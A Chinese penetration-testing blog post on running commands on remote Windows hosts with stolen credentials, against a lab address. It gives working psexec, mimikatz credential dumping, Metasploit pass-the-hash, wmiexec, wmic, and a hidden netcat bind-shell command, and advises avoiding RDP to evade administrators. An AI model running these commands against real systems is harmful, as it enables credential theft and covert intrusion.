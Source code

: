 ```yaml
---
title: Windows远程执行命令
copyright: true
categories: 内网渗透
tags:
  - Windows
  - 远程命令执行
  - 内网渗透
abbrlink: bf80d0ef
date: 2020-01-23 14:21:17
---
```


<blockquote class="blockquote-center">只愿君心似我心，定不负相思意</blockquote>

　　当我们已经获取了远程系统的凭证（明文密码或 hash）时，可以直接通过3389远程登录进去收集信息、进行下一步的渗透，但是这样做的话会在系统上留下我们的操作记录，而且有可能邂逅管理员。大部分情况下，一个cmdshell 已经可以满足我们继续渗透的需求，所以不到万不得已的时候最好不要远程桌面连接(mstsc)，而是通过远程执行命令的方式继续开展工作。

<!-- more -->

### psexec.exe远程执行命令

```
psexec \\192.168.30.128 -u Administrator -p 123456789 cmd.exe
```

![](https://img-blog.csdnimg.cn/20200121181236736.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

这里一开始登陆的是另一个管理员账号，但是一直被拒绝访问，后来把Administrator账号取消隐藏，一下就连接上。之后看到一篇文章也有一样的情况，只有Administrator账号才能连接，就算是管理员用户组的其他用户也不能连接，UAC的问题。

### 使用Hash登陆Windows

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit"
```

![](https://img-blog.csdnimg.cn/20200121181256861.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

或者使用wce抓取hash值：

![](https://img-blog.csdnimg.cn/20200121181302526.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

msf调用payload：

```
use exploit/windows/smb/psexec
show options
set RHOST 192.168.30.128
Set SMBPass 0182BD0BD4444BF867CD839BF040D93B:C22B315C040AE6E0EFEE3518D830362B
set SMBUser Administrator
show options
Run
```

![](https://img-blog.csdnimg.cn/20200121181313817.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

### 利用wmiexec工具配合进行反弹半交互shell

```
cscript.exe //nologo wmiexec.vbs /shell 192.168.30.128 Administrator 123456789
```

![](https://img-blog.csdnimg.cn/2020012118132951.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

还可以单条命令执行

![](https://img-blog.csdnimg.cn/20200121181349926.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

### WMI执行命令方式，无回显

```
wmic /node:192.168.30.128 /user:Administrator /password:123456789  process call create "cmd.exe /c ipconfig>c:\result.txt"
```

![](https://img-blog.csdnimg.cn/2020012118140386.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

执行成功后可以在被控制的机器里面找到执行结果的文件

![](https://img-blog.csdnimg.cn/20200121181405240.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

### nc远程执行

先在被控机器上开启监听，-L：让监听者在连接多次掉线时仍坚持监听，-d：让nc隐藏运行，-e：指定要运行的程序，-p：监听的端口

```
nc.exe -L -d -e cmd.exe -p 5555
```

![](https://img-blog.csdnimg.cn/20200121181415362.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

```
控制端运行nc64.exe 192.168.30.128 5555
```

![](https://img-blog.csdnimg.cn/20200121181428164.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)